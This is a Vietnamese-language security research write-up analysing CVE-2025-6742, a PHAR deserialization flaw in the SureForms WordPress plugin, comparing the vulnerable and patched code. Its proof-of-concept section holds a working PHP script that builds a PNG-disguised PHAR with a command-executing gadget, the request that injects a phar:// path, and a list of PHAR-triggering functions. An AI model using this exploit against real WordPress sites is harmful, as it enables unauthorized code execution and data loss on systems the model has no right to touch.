


<!--more-->

## CVE & Basic Info
Plugin **The SureForms – Drag and Drop Form Builder for WordPress** cho WordPress tồn tại lỗ hổng **PHP Object Injection** trong tất cả các phiên bản cho đến, và bao gồm, 1.7.3 thông qua việc sử dụng **file_exists()** trong hàm **delete_entry_files()** mà không có giới hạn đối với đường dẫn được cung cấp. Điều này cho phép kẻ tấn công chưa xác thực có thể inject một **PHP Object**. Không có **POP chain** nào được biết đến trong phần mềm dễ bị tấn công này, nghĩa là lỗ hổng này không có tác động trừ khi một plugin hoặc theme khác chứa **POP chain** được cài đặt trên site. Nếu một **POP chain** tồn tại thông qua plugin hoặc theme bổ sung được cài đặt trên hệ thống mục tiêu, nó có thể cho phép kẻ tấn công thực hiện các hành động như xóa file tùy ý, lấy dữ liệu nhạy cảm, hoặc thực thi code tùy thuộc vào **POP chain** hiện diện.

* **CVE ID**: [CVE-2025-6742](https://www.cve.org/CVERecord?id=CVE-2025-6742)
* **Vulnerability Type**: PHP Object Injection
* **Affected Versions**: <= 1.7.3
* **Patched Versions**: 1.7.4
* **CVSS severity**: High (7.5)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress SureForm Plugin](https://wordpress.org/plugins/sureforms/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **SureForm**:  
    * `1.7.3` – **vulnerable**  
    * `1.7.4` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

## Cause
Trong phiên bản `1.7.3`, hàm `delete_entry_files()` nhận vào một `$file_url`, sau đó decode url và chuyển đổi thành đường dẫn bằng `$file_path = Helper::convert_fileurl_to_filepath( urldecode( $file_url ) );`

Tiếp theo nó gọi trực tiếp:

```php {title="entries-list-table.php v1.7.3"}
// Delete the file if it exists.
if ( file_exists( $file_path ) ) {
    unlink( $file_path );
}
```

Đoạn code này kiểm tra sự tồn tại của file bằng `file_exists()` và sử dụng `unlink()` để xóa nếu nó tồn tại.


Trong bản vá, đoạn code trên được thay thế bằng:

```php {title="entries-list-table.php v1.7.4"}
// Delete the file from the uploads directory.
Helper::delete_upload_file_from_subdir( $file_url, 'sureforms/' );
```

```php {title="helper.php v1.7.4"}
public static function delete_upload_file_from_subdir( $file_url, $subdir = 'sureforms/' ) {
    // Decode the file URL.
    $file_url = urldecode( $file_url );

    // Check if the file URL is empty.
    if ( empty( $file_url ) || ! is_string( $file_url ) ) {
        return false;
    }

    // Normalize and sanitize the subdirectory.
    $subdir = trailingslashit( sanitize_text_field( $subdir ) );

    // Get the base upload directory.
    $upload_dir       = wp_upload_dir();
    $base_upload_path = trailingslashit( $upload_dir['basedir'] ) . $subdir;

    // Extract only the filename from URL.
    $filename = basename( $file_url );

    // Construct the full file path.
    $file_path = $base_upload_path . $filename;

    // Resolve real paths.
    $real_file_path = realpath( $file_path );
    $real_base_path = realpath( $base_upload_path );

    // Security check: ensure file is inside the target subdir.
    if ( ! $real_file_path || ! $real_base_path || strpos( $real_file_path, $real_base_path ) !== 0 ) {
        return false;
    }

    // Delete if file exists.
    if ( file_exists( $real_file_path ) ) {
        return unlink( $real_file_path );
    }

    return false;
}
```

Hàm mới `delete_upload_file_from_subdir()` thực hiện nhiều bước kiểm tra bảo mật, chỉ cho phép xóa file nằm trong thư mục `uploads/sureforms/`, với tên file hợp lệ.

> [!INFO] Theo như mô tả thì CVE này liên quan đến lỗ hổng PHP Object Injection mà sink ở đây là hàm `file_exists()` thì chỉ có xảy ra với trường hợp **PHAR Deserialization**, tức `$file_path` ở đây phải thuộc dạng `phar://phar_file`.

## Analysis
```php {title="entries-list-table.php v1.7.3" data-open=true hl_lines=[6,22]}
public static function delete_entry_files( $entry_id ) {
    if ( ! $entry_id ) {
        return;
    }
    // Get the entry data to get the file URLs.
    $form_data = Entries::get_form_data( $entry_id );
    if ( empty( $form_data ) ) {
        return;
    }
    foreach ( $form_data as $field_name => $value ) {
        // Continue to the next iteration if the field name does not contain 'srfm-upload' and value is not an array.
        if ( false === strpos( $field_name, 'srfm-upload' ) && ! is_array( $value ) ) {
            continue;
        }
        foreach ( $value as $file_url ) {
            // If the file URL is empty, skip to the next iteration.
            if ( empty( $file_url ) ) {
                continue;
            }
            $file_path = Helper::convert_fileurl_to_filepath( urldecode( $file_url ) );
            // Delete the file if it exists.
            if ( file_exists( $file_path ) ) {
                unlink( $file_path );
            }
        }
    }
    ...
}
```

Sau khi xem qua logic của hàm `delete_entry_files()`, tôi nhận thấy các từ khóa như `entries` xuất hiện khá nhiều. Có sự trùng hợp ở đây:


Có vẻ đúng, nhưng như bạn thấy thông báo `"No records found"`, chưa có dữ liệu nào để hiển thị. Vậy ta thêm như nào?

```php
$form_data = Entries::get_form_data( $entry_id );
```

Nhìn vào tên hàm được gọi: `get_form_data` thì khả năng cao dữ liệu được lấy từ form do client submit vì lỗ hổng này được công bố là **Unauthenticated**

Thử tạo form bằng chức năng của plugin:


Tạo post và embed shortcode của form vừa tạo:



Truy cập form được tạo và submit dữ liệu bất kỳ:

```http {title="Request" hl_lines=[37,39]}
POST /wp-json/sureforms/v1/submit-form?_locale=user HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: application/json, */*;q=0.1
Accept-Language: en-US,en;q=0.7,vi;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/2025/11/19/form-testing/
X-WP-Nonce: 2c506366a5
Content-Type: multipart/form-data; boundary=----geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Length: 730
Origin: http://localhost
Connection: keep-alive
Cookie: wp-settings-time-3=1763365761
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-PwnFox-Color: blue
Priority: u=0

------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="sureforms_form_submit"

d3b9273370
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="_wp_http_referer"

/2025/11/19/form-testing/
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="form-id"

123
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="srfm-sender-email-field"


------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="srfm-input-7469d29b-lbl-VGV4dCBGaWVsZA-text-field"

testing
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221--
```


Response trả về một số trường như: **trạng thái** và **id** của submit.

Tên `delete_entry_files` đề cập đến việc xóa một entry, ta thử đặt breakpoint đầu hàm và thử xóa 1 entry.


Tiếp tục debug 



Ta thấy `$value` là giá trị do ta kiểm soát. `$value` cần phải là một mảng để nó không bị bỏ qua `continue` và để `file_exists()` có thể được gọi.

Để `$value` là một mảng, ta submit với name chứa `[]` ở cuối:

```
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="srfm-input-7469d29b-lbl-VGV4dCBGaWVsZA-text-field[]"

testing
```


## Flow

Khi đã debug được rồi thì ta sẽ thấy luồng dẫn tới sink:


graph TD
A["Client submit form"] 
    --> B["Admin delete entry"]
B --> C["WordPress hook: admin_init"]
C --> D["handle_entry_actions"]
D --> E["Entries_List_Table::handle_entry_status()"]
E -- $action=delete --> F["Entries_List_Table::delete_entry_files()"]
F --> G{"$value is array"}
G -- Yes --> H["call file_exists( $file_path )"] --> L["RCE: PHAR Deserialization"]
G -- No --> K["continue"]


## Proof of Concept (PoC)
1. Sử dụng admin account để tạo form và thêm vào post
2. Tạo 1 PHP file `create_phar.php` với code sau:

```php {data-open=true}
<?php
// Định nghĩa class Evil với thuộc tính và hàm __wakeup
class Evil
{
    // Thuộc tính command chứa lệnh hệ thống sẽ thực thi
    public $command = "ls /";

    // Hàm __wakeup() được gọi khi object này bị unserialize
    public function __wakeup(): void
    {
        // Khi unserialize, sẽ thực thi lệnh trong $command và dừng chương trình
        die(system($this->command));
    }
}

// Tạo một file PHAR mới tên poc.phar
$phar = new Phar('poc.phar');

// Bắt đầu ghi dữ liệu vào PHAR (buffering)
$phar->startBuffering();

// Thêm một entry giả tên test.png với nội dung "text"
$phar->addFromString('test.png', 'text');

// Đặt stub cho PHAR: bắt đầu bằng magic bytes của PNG để giả dạng file ảnh,
// sau đó có đoạn PHP __HALT_COMPILER() để đánh dấu kết thúc stub
$phar->setStub("\x89PNG\r\n\x1a\n<?php __HALT_COMPILER(); ?>");

// Ghi metadata vào PHAR: ở đây là một object Evil đã khởi tạo
// Metadata sẽ được serialize, và nếu bị unserialize sẽ kích hoạt __wakeup()
$phar->setMetadata(new Evil());

// Kết thúc ghi, flush dữ liệu ra file poc.phar
$phar->stopBuffering();
```

3. Tạo PHAR file `poc.phar` bằng cách chạy  `php --define phar.readonly=0 create_phar.php`.

> [!INFO]
> `phar.readonly` là một directive trong PHP (cấu hình của extension Phar). Mặc định giá trị của nó là 1 (readonly) không thể tạo file. Khi muốn tạo file PHAR, cần tắt chế độ readonly bằng cách thêm option `phar.readonly=0` hoặc cấu hình trong `php.ini`

4. Đổi tên `poc.phar` thành `poc.png` vì thông thường các trường hợp sẽ chấp nhận upload file ảnh thay vì `.phar`
5. Upload `poc.jpg` bằng Trình chỉnh sửa phương tiện. Lưu ý đường dẫn của nó trong `wp-content/uploads`.
6. Gửi lại request submit form:

```http {title="Request" hl_lines=[37,39]}
POST /wp-json/sureforms/v1/submit-form?_locale=user HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: application/json, */*;q=0.1
Accept-Language: en-US,en;q=0.7,vi;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/2025/11/19/form-testing/
X-WP-Nonce: 2c506366a5
Content-Type: multipart/form-data; boundary=----geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Length: 775
Origin: http://localhost
Connection: keep-alive
Cookie: wp-settings-time-3=1763365761
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-PwnFox-Color: blue
Priority: u=0

------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="sureforms_form_submit"

d3b9273370
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="_wp_http_referer"

/2025/11/19/form-testing/
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="form-id"

123
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="srfm-sender-email-field"


------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="srfm-input-7469d29b-lbl-VGV4dCBGaWVsZA-text-field[]"

phar://../wp-content/uploads/2025/11/poc.png
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221--
```
7. Khi admin xóa entry đã upload


> [!WARNING]
> Sau khi thử nhiều phiên bản PHP khác nhau, tôi nhận thấy rằng: Hàm `file_exists()` chỉ hoạt động ở các phiên bản `<=7.4`

**Một số hàm khác dùng để khai thác PHAR Deserialization:**
```
copy                file_exists         file_get_contents   file_put_contents   
file                fileatime           filectime           filegroup           
fileinode           filemtime           fileowner           fileperms           
filesize            filetype            fopen               is_dir              
is_executable       is_file             is_link             is_readable         
is_writable         lstat               mkdir               parse_ini_file      
readfile            rename              rmdir               stat                
touch               unlink  
```

# Conclusion

Lỗ hổng **PHP Object Injection trong SureForm <= 1.7.3** xuất phát từ việc sử dụng `file_exists()` và `unlink()` trực tiếp trên đường dẫn được kiểm soát bởi user mà không có ràng buộc phạm vi truy cập file. Tuy không có POP chain sẵn trong plugin, nhưng nếu hệ thống cài đặt thêm plugin hoặc theme có POP chain, kẻ tấn công có thể mở rộng mức độ khai thác đến xóa file, đọc dữ liệu nhạy cảm hoặc thậm chí thực thi mã (RCE). Bản vá 1.7.4 xử lý vấn đề bằng việc chuẩn hoá và giới hạn đường dẫn file vào thư mục upload hợp lệ nhằm loại bỏ vector khai thác.

# Key Takeaways

* Lỗi phát sinh từ việc thao tác file trực tiếp dựa trên input người dùng chưa kiểm soát.
* Việc chỉ dùng `file_exists()` có thể dẫn đến PHAR deserialization trên PHP ≤7.4.
* Dù plugin không có POP chain sẵn, môi trường WordPress thường cài nhiều plugin → khả năng ghép chain rất cao.
* Bản vá thêm kiểm tra chuẩn hóa đường dẫn, giới hạn phạm vi file và tránh sử dụng trực tiếp path đến filesystem.
* Các hàm file-operation luôn tiềm ẩn nguy cơ khai thác nếu input không được kiểm soát chặt chẽ.

## References

[Deserialization](https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html)

[WordPress SureForm Plugin <= 1.7.3 is vulnerable to a high priority PHP Object Injection](https://patchstack.com/database/wordpress/plugin/sureforms/vulnerability/wordpress-sureforms-plugin-1-7-3-unauthenticated-php-object-injection-phar-vulnerability)    
